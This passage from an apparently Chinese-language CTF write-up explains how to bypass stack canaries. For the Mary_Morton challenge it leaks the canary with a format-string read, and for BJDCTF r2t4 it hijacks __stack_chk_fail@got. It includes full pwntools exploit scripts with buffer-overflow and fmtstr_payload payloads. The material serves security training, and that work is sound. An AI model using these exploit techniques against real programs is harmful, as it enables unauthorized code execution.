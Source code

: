 ![](25.png)
尝试一番可以发现是第6个参数的位置
![](26.png)
然后计算出buf和canary之间的距离为0x90-0x8=0x88=136
这是个64位程序，8字节为一个单位，136/8=17，那么canary距离格式化字符串函数23（17+6）个参数的距离
可以利用%23$p来leak canary
![](27.png)
nice
接下来就把canary填入rbp-8的位置然后ret2text就彳亍了

#### exp

```python
from pwn import *
context.log_level = 'debug'
p = process('./Mary_Morton')
p.recvuntil('3. Exit the battle')
p.sendline('2')
p.sendline("%23$p")
p.recvuntil('0x')
canary = int(p.recv(16),16)
log.success("canary==>" + hex(canary))
system = 0x4008DA
payload = 'a'*0x88 + p64(canary) + p64(0xdeadbeef) + p64(system)
p.sendline('1')
p.sendline(payload)
p.interactive()
```

## 劫持__stack_chk_fail函数

改写\_\_stack_chk_fail@got，但前提是必须有一个可以向任意地址写的漏洞，例如说格式化字符串漏洞
这个方法适用于只能输入一次的程序，如果说可以利用多次的话就可以像上面一样直接泄露canary了

### 例题：[BJDCTF 2nd]r2t4

程序比较简单，分析下
![](28.png)
存在溢出存在格式化字符串漏洞有canary
![](29.png)
有后门
直接改写__stack_chk_fail@got为backdoor
这个题限制不多，可以直接用fmtstr_payload模块一把梭
当然也可以手动构造
但是我还没做手动构造打的（懒🐕

#### exp

```python
from pwn import*
context.log_level = 'debug'
p=remote("node3.buuoj.cn",28676)
#p = process("./r2t4")
elf = ELF("./r2t4")
libc = elf.libc
stack_check = 0x601018
flag_addr = 0x400626
payload = fmtstr_payload(6,{stack_check:flag_addr}).ljust(40,'a')
p.sendline(payload)
p.interactive()
```
